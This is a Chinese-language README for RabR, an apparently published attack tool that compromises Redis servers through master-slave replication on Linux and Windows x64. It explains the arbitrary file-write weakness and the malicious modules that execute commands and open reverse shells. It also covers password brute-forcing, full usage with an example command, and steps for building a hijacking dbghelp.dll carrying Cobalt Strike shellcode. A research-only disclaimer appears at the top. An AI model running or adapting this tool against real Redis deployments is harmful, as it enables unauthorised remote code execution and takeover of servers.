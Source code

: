 # RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可执行命令 

本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 声明
本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到Redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的Redis进行module攻击，对Windows下的Redis进行module攻击和dll劫持攻击。  
- 本工具默认使用的Linux恶意模块：exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。  
- 本工具默认使用的Windows恶意模块：exp.dll，源码来自于：[**RedisModules-ExecuteCommand-for-Windows** ](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows ), 该模块实现了执行命令的功能，你也可以编写自己的模块。  
- 本工具默认使用的用于劫持的恶意dll：dbghelp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **Winx64下的dbghelp.dll**编译生成的，该dll会执行calc，你可以编译自己的dbghelp.dll。
- 本工具有爆破功能，密码字典位于pwd.txt中。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 结构
```  
│  dbghelp.dll 默认用于劫持Redis的dll
│  exp.dll 默认导入的Windows Redis模块
│  exp.so 默认导入的Linux Redis模块
│  pwd.txt 爆破字典
│  rd.exe 用于保存Redis数据的程序
│  README.md
│  redis-attack.py 攻击主程序
```

## 用法   
运行环境：Windows+python3
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-lf LINUXFILE] [-a AUTH] [--brute] [-v]
Example: python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll used to hijack redis, default dbghelp.dll
  -wf2 WINFILE2, --winfile2 WINFILE2
                        Redis Modules(win) to load, default exp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        Redis Modules(linux) to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  --brute               If redis needs to verify the password, perform a brute force attack base in pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```

![image-20210708212712502](phpto/image-20210708212712502.png)
![image-20210708190457889](phpto/image-20210708190457889.png)
![image-20210708213302932](phpto/image-20210708213302932.png)

## 进一步  
劫持Windows x64下的dbghelp.dll的具体方法：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标Redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   
```
1、将dllmain.c中 shellcode_calc[] 的值替换为cs生成的shellcode 
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);
3、修改活动解决方案为Realease，x64
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值
```
3）编译生成恶意dbghelp.dll，复制到本工具目录下。    
4）使用本工具执行攻击 。  

## 时间线  
```  
2021.07.03 发布v0.5
2021.07.08 发布v0.6,增加了Windows模块攻击
```


## 感谢  
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！  
帮助到我的文章与工具包括但不限于：  
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)  
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)  
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)  
 [redis-rce](https://github.com/Ridter/redis-rce)  
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)  
 [redis-dump-go](https://github.com/yannh/redis-dump-go)  

## 反馈  
Mail：h.vi@qq.com   
或者[issue](https://github.com/0671/RabR/issues/new)、PR  
